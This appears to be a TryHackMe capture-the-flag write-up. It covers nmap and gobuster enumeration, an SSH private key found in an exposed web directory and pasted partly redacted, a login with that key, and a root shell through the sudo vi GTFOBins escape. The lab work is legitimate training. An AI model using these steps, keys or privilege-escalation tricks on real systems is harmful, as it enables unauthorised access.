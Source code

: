 ## NMAP

`nmap 10.10.245.20`

```bash
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-27 19:35 -0500  
Nmap scan report for 10.10.245.20  
Host is up (0.18s latency).  
Not shown: 998 closed tcp ports (conn-refused)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
  
Nmap done: 1 IP address (1 host up) scanned in 17.58 seconds
```

## Gobuster

`gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt -u http://10.10.245.20`

```bash
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://10.10.245.20  
[+] Method:                  GET  
[+] Threads:                 10  
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/.php                 (Status: 403) [Size: 277]  
/.html                (Status: 403) [Size: 277]  
/.htm                 (Status: 403) [Size: 277]  
/assets               (Status: 301) [Size: 313] [--> http://10.10.245.20/assets/]  
/.                    (Status: 200) [Size: 886]  
/.htaccess            (Status: 403) [Size: 277]  
/.phtml               (Status: 403) [Size: 277]  
/.htc                 (Status: 403) [Size: 277]  
/.html_var_DE         (Status: 403) [Size: 277]  
/keys                 (Status: 301) [Size: 311] [--> http://10.10.245.20/keys/]  
/server-status        (Status: 403) [Size: 277]  
/.htpasswd            (Status: 403) [Size: 277]  
/.html.               (Status: 403) [Size: 277]  
/.html.html           (Status: 403) [Size: 277]  
/.htpasswds           (Status: 403) [Size: 277]  
/.htm.                (Status: 403) [Size: 277]  
/.htmll               (Status: 403) [Size: 277]  
/.phps                (Status: 403) [Size: 277]  
/.html.old            (Status: 403) [Size: 277]  
/.ht                  (Status: 403) [Size: 277]  
/.html.bak            (Status: 403) [Size: 277]  
/.htm.htm             (Status: 403) [Size: 277]  
/.hta                 (Status: 403) [Size: 277]  
/.htgroup             (Status: 403) [Size: 277]  
/.html1               (Status: 403) [Size: 277]  
/.html.LCK            (Status: 403) [Size: 277]  
/.html.printable      (Status: 403) [Size: 277]  
Progress: 20888 / 63089 (33.11%)^C  
[!] Keyboard interrupt detected, terminating.  
Progress: 20910 / 63089 (33.14%)
```

`/assets`

![[Images/Pasted image 20250627194609.png|Pasted image 20250627194609.png]]

Nothing useful.

`/keys`

![[Images/Pasted image 20250627194651.png|Pasted image 20250627194651.png]]

We check `key_09`

We find an SSH private key.

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAtYYVwOXJatC6YlBfF3XOsjcGdskwS9iLIqCbSjN2BqI2EiMYpL52
wZi+jxl94MTvMmn4U/KHcWdkD7SMCB9LmJUy9BiX/nxbGE8A/BCiRQ9gS45jz24sWLHh+r
AGd4evgU2DPBUkdZY23H+9aSp2G9tl7kgbkxNvVnk0yL+P73muiaWt2bSZQV6AzzkVRTsW
A82ILpSbl4fyVFfIFHnw85fUc8w6MJTzAAlW2KPU848sxkeJSyCRn3YNZgh6LN1Jq2ULhT
ma3lQHmJqBBtH8u3m/JotskwMoMUE1kdHC9jHLPmoUBA/1dgnYDSWNfiHLizKAIrPS8gVz
EMJsxwseI3LqxEnAraFEnSfRBeccmT9DL3DYEZIePG7uXGu9mPrAY2RCtv5ddt8s718F8L
0GzyU6JZjpTnizXK1EYknFBehJoFDAGxfiG/YVOPLDWCeJnXoCnEiuq6l4KcJPdNGXwAlW
oEw/lqX8zZQS3HJWqhpLHb9wyB081TNcZMBB3bevAAAFiL4LA4u+CwOLAAAAB3NzaC1yc2
EAAAGBALWGFcDlyWrQumJQXxd1zrI3BnbJMEvYiyKgm0ozdgaiNhIjGKS+dsGYvo8ZfeDE
7zJp+FPyh3FnZA+0jAgfS5iVMvQYl/58WxhPAPwQokUPYEuOY89uLFix4fqwBneHr4FNgz
[REDACTED]LKxh1lcwnD7
2QPUEZhLgwAzHCJiDwANrBNGuBdq+lAAAAwQDMWkUspYPHYDne9lsOba8aKshpIqA2cX7F
GOAocIDJ4TTjixXBxf+1n/iRtuZlIIQTl8uDNufYnqhghu0J/Q79UBdJN/6skvESYsdH1J
z3qU7hdnfwrlHn3pik5iZoXM1tmc0LB1/LO8NLn0KNYzg29iEtyXdZlewZiM5PihbjmojA
AvCElrOR5Zg+aLxuBye5oAiRbyLDn3+D+TH0694ftgdSnNj65ePqWN4O9vvwyIXGbSMlxw
qdN8UUt1jaqcMAAAASZGV2QHRyeWhhY2ttZS0yNDA0AQ==
-----END OPENSSH PRIVATE KEY-----
```

We can generate the public key:

`ssh-keygen -y -f sshkey`

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1hhXA5clq0LpiUF8Xdc6yNwZ2yTBL2IsioJtKM3YGojYSIxikvnbBmL6PGX3gxO8yafhT8odxZ2QPtIwIH0uYlTL0GJf+fFsYTwD8EKJFD2BLjmPPbixYseH6sAZ3h6+BTYM8FSR1ljbcf  
71pKnYb22XuSBuTE29WeTTIv4/vea6Jpa3ZtJlBXoDPORVFOxYDzYgulJuXh/JUV8gUefDzl9RzzDowlPMACVbYo9TzjyzGR4lLIJGfdg1mCHos3UmrZQuFOZreVAeYmoEG0fy7eb8mi2yTAygxQTWR0cL2Mcs+ahQED/V2CdgNJY1+IcuLMo  
Ais9LyBXMQwmzHCx4jcurEScCtoUSdJ9EF5xyZP0MvcNgRkh48bu5ca72Y+sBjZEK2/l123yzvXwXwvQbPJTolmOlOeLNcrURiScUF6EmgUMAbF+Ib9hU48sNYJ4mdegKcSK6rqXgpwk900ZfACVagTD+WpfzNlBLcclaqGksdv3DIHTzVM1x  
kwEHdt68= dev@tryhackme-2404
```

Now we know the user account and can login:

`dev@IP`

`echo 'PRIVATE_KEY' > sshkey`

`ssh -i sshkey dev@10.10.245.20`

Now we got the `user.txt`

## Privilege Escalation
`sudo -l`

```bash
Matching Defaults entries for dev on tryhackme-2404:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty  
  
User dev may run the following commands on tryhackme-2404:  
   (ALL) NOPASSWD: /usr/bin/vi
```

We check [GTFOBins](https://gtfobins.github.io/) for /usr/bin/vi

````bash
sudo vi -c ':!/bin/sh' /dev/null
````

And we're root. Easier than the last room.

`cat root.txt`



``